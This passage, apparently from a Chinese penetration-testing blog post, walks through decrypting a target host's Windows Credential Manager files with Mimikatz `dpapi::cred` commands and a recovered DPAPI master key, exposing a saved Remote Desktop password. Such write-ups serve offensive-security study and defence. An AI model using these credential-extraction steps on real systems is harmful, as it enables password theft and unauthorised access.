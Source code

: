 如下图所示，目标主机的凭据管理器中保存了 3 条凭据。为避免将工具直接上传至目标主机，应先将这些凭据文件拷贝到本地，然后使用 Mimikatz 对凭据文件中的 Data BLOB 进行解析，以提取加密数据及其对应的 `guidMasterKey`。

```powershell
dpapi::cred /in:".\Credentials\088E944D53AA5325DEBB316DAD22B476"
```

![image-20250929133524010](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929133524010.png)

从返回的结果中可以看到，该凭据受到 GUID 为 {d50af38c-3c43-4c36-9a32-3dc81a133f83} 的 MasterKey 保护，正是我们前文已解密成功的那个。

接下来可以使用该 MasterKey 对存放在 `088E944D53AA5325DEBB316DAD22B476` 文件中的凭据（从解密结果中可以看出它是一个远程桌面连接保存的密码）进行解密。

```powershell
dpapi::cred /in:".\Credentials\088E944D53AA5325DEBB316DAD22B476" /masterkey:"f7207dc067794eca1d528ce941e63fa37670566c9770c56692a04462df41ce462266eb784037d396238f5c54fc0adf586d568bd1acc827beda452220ad83883b"
```
